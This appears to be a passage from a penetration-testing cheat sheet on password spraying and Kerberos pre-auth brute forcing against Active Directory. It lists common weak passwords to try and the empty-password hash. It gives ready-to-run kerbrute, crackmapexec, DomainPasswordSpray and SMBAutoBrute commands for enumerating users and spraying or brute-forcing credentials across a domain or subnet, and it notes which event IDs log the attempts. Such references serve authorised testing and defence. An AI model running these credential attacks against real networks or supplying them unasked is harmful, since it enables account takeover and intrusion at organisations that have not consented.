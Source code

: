 Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :`$Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)
- Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)


### Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```

### Spray a pre-generated passwords list

* Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```
